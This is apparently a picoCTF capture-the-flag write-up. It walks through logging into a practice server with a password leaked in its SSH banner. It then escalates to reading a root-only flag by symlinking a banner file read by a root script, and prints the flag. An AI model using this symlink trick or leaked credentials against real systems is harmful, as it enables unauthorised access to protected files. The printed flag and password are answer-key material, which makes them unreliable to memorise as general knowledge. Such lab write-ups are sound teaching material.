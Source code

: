 # dont-you-love-banners

Link to the challenge: https://play.picoctf.org/practice/challenge/437

## Description

Can you abuse the banner?
The server has been leaking some crucial information on `tethys.picoctf.net 52473`. Use the leaked information to get to the server.
To connect to the running application use `nc tethys.picoctf.net 59356`. From the above information abuse the machine and find the flag in the `/root` directory.

### Note that you may receive different port numbers.

# Solution

## Getting shell access

Let's start by connecting to `tethys.picoctf.net 59356`

```
$ nc tethys.picoctf.net 59356
*************************************
**************WELCOME****************
*************************************

what is the password?
random_guess
Lol, good try, try again and good luck
```

Upon connection, we're greeted with a welcome banner and prompted for a password. Trying a random guess yields no success. Since we don't know the password, our next step is to connect to `tethys.picoctf.net 52473` to see if we can uncover any useful information there.

```
$ nc tethys.picoctf.net 52473
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

This server leaks the password we need!

Armed with the correct password, we reconnect to `tethys.picoctf.net 59356`and provide the password. We're then asked two questions about cybersecurity, the answers to which we can find on the Internet or by asking LLM.

```
$ nc tethys.picoctf.net 59356
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Answering these questions correctly grants us shell access.

## Exploring the `/root` directory

The description suggests to look inside the `/root` directory.

```
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12 00:18 .
drwxr-xr-x 1 root root   29 Jul  4 12:33 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12 00:18 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
```

Listing the contents of this directory, we find several files, including a `flag.txt` which is inaccessible due to permissions. However, we can read a script named `script.py`.

```
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

## Exploit

Examining the script reveals that upon connection, the server displays a banner from the `/home/player/banner` file. Since this part of the code is executed with root permissions, it has access to read the `flag.txt` file. We can exploit this by creating a symbolic link from `/home/player/banner` to `/root/flag.txt` .

Executing this clever trick means that the next time we connect, the contents of `/root/flag.txt` will be displayed as the banner.

```
player@challenge:~$ mv banner banner.orig
mv banner banner.orig
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   39 Jul  4 12:55 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
lrwxrwxrwx 1 player player   14 Jul  4 12:55 banner -> /root/flag.txt
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner.orig
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
```

Finally, we reconnect to `tethys.picoctf.net 59356`.

```
player@challenge:~$ ^C
$ nc tethys.picoctf.net 59356
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password?
$ ^C
```

And there it is — the flag displayed as the banner!

### Flag: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}